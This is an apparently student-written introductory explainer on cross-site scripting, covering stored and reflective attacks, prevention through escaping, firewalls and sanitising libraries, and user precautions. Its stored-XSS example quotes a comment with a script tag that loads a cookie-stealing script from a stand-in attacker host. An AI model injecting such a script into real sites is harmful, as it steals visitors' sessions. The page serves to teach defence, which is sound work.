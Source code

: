 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the biggest website vulnerabilities. Web sites are 
especially vulnerable  when they don't use validation or encoding on user generated 
data. [xss]_

Cross-Site Scripting 


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. 

* Most danger lies on the users of the sites, as the code targets their information 
and use rather than the website itself. [xss]_ 


* Some examples of what dangerous XSS could do include: 

	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

* Stored xss is "stored", or imbeded, on the website itself and steals data everytime 
the website is visited. [xss-prevention]_ It is also know as "persistant XSS", 
and can be the more dangerous of the two types. [xss-attacks]_

* Reflective xss is stored in a link embedded in the website that the user has to 
click on to activate. [xss-attacks]_ 


What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall(WAF) - most common protection [xss-attacks]_ 
	
* Signiture based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites code [xss-prevention]_ 
	
	* PHP Applications can use **htmlentities()** , a built in function for 
	escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	before entering any untrusted or unvalidated data [xss_cheat_sheet]_
	
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
HTML tags. They leave a comment that says: 
"Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
This is a stored in the website, and everytime someone visits the page, they have their 
session cookies stolen


	* Harder for hackers to attempt, because they must find a highly trafficed site that 
	also has a security hole. [xss-prevention]_
	
	
* Reflective XSS: Similar to above, but the user would have to click on the link 
to activate the code. 


Sources
-------

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. N.p. n.d. Web. 16 Feb. 2017. 

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. N.p., n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.

*Written by Kyann, Edited by Rasim and Cole.*

